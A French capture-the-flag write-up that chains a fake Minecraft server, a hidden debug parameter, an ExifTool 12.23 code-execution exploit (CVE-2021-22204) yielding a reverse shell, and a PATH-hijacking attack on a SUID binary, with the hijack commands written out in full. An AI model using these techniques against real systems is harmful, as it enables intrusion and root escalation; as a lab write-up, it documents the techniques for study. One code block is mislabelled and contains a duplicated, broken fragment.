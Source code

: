 ![Desc](images/desc.png)

# Writeup

On part d’une page web qui, via un formulaire, ping un serveur MC pour afficher joueurs, version, description & favicon. En testant mc.hypixel.net:25565, on reçoit une erreur exigeant un MOTD contenant “Cinema” et “Cannes” :

![Error](images/error.png)


En déployant un serveur Node.js avec le bon MOTD on a une nouvelle erreur : "Un peu de serieux, le serveur ne peut pas avoir moins de 1 000 000 de joueurs !", on ajuste donc le nombre de joueurs : 

```python
const mc = require('minecraft-protocol');
const fs = require('fs');

const MOTD = 'Cinema de Cannes';

const raw = fs.readFileSync('favicon.jpg');
const faviconData = 'data:image/jpeg;base64,' + raw.toString('base64');

const server = mc.createServer({
  host: '0.0.0.0',
  port: 25565,
  version: false, // accepte toutes les versions
  'online-mode': false, // offline mode
  maxPlayers: 1000000,
  favicon: faviconData,
  beforePing: (response, client) => {
    // personnalise la réponse
    console.log(`[>] beforePing response for ${client.socket.remoteAddress}:${client.socket.remotePort}:`);
    console.dir(response, { depth: null });
    response.version.name = '1.21';
    response.version.protocol = response.version.protocol;
    response.players.max = 1000000;
    response.players.online = 1000000;
    // description en objet JSON
    response.description = { text: MOTD };
    return response; // renvoie l’objet modifié
  }
});

server.on('listening', () => console.log('Fake server ON'));

server.on('connection', client => {
  const addr = `${client.socket.remoteAddress}:${client.socket.remotePort}`;
  console.log(`[+] New connection from ${addr}`);
  client.on('handshake', packet => {
    console.log(`[?] Handshake from ${addr}:`);
    console.dir(packet, { depth: null });
  });
  client.on('ping', packet => console.log(`[?] Ping from ${addr}:`, packet));
  client.on('error', err => console.error(`[!] Error from ${addr}:`, err));
  client.on('packet', (packetName, packet) => {
    console.log(`[→] Packet '${packetName}' from ${addr}:`);
    console.dir(packet, { depth: null });
  });('packet', (packetName, packet) => {
    console.log(`[→] Packet '${packetName}' from ${addr}:`);
    console.dir(packet, { depth: null });
  });
  client.on('raw', buffer => {
    console.log(`[→] Raw data (${buffer.length} bytes) from ${addr}:`, buffer.toString('hex'));
  });
});
```

Concernant la vulnérabilité, les commentaires dans le code source nous ont permis de la retrouver : 

```html
<!-- <input type="hidden" name="debug" value="debug_for_admin_20983rujf2j1i2" > -->
```

En ajoutant le paramètre debug à notre requête, un nouveau commentaire apparaît dans le code source : 

```html
<!-- Exiftool Version: 12.23, Taille du fichier: 455 --> Cette taille de fichier correspond au favicon du serveur d'exemple
```

Cette version d'exiftool est vulnérable à une Arbitrary Code Execution (CVE-2021-22204), un script d'exploitation(https://www.exploit-db.com/exploits/50911), nous permet de générer une image piégée pour obtenir un reverse shell : 

![Error](images/exploit.png)

Une fois le serveur MC relancé on peut de nouveau le requêter `http://57.128.112.118:11991/?server=4.210.160.24&port=25565&debug=debug_for_admin_20983rujf2j1i2` et le serveur web se connecte bien à notre listener :

![request](images/request.png)
![revshell](images/rev.png)

On peut lister les fichiers :

```zsh
$ ls -la
… fix_permissions    # binaire SUID root  
… flag.txt           # permissions 000
```

Lorsqu'on exécute le binaire fix_permissions:

```zsh
flaskuser@app:/app$ ./fix_permissions flag.txt
[*] Fixing permissions for files in /app/images
[*] Running as UID: 0
[*] Command: chmod 400 *
```

- Le binaire utilise probablement un execvp("chmod", args) ou un system("chmod 400 *") sans préciser de chemin absolu /bin/chmod.

- Il hérite donc de la variable d’environnement PATH de l’utilisateur appelant.

- Exploit : si on place devant /bin un exécutable chmod malicieux, execvp l’appellera en tant que root :

On créer un “chmod” factice dans /app/images pour récupèrer le flag :

```zsh
cat > chmod <<'EOF'
#!/bin/bash
cp /app/flag.txt /tmp/flag_copy.txt
chmod 644 /tmp/flag_copy.txt
exit 0
EOF
```

On rend ce script éxécutable :

```zsh
/bin/chmod +x chmod
```

On Préfixe `PATH` pour que notre script soit trouvé en priorité :

```zsh
export PATH=$(pwd):$PATH
```

On lance le binaire :

```zsh
../fix_permissions
```

On récupère le flag :

![Flag](images/SUIDexploit.png)

**Flag**

`SHLK{0!d_Sch00L_Guy_H0lds_0lds_V3rsions}`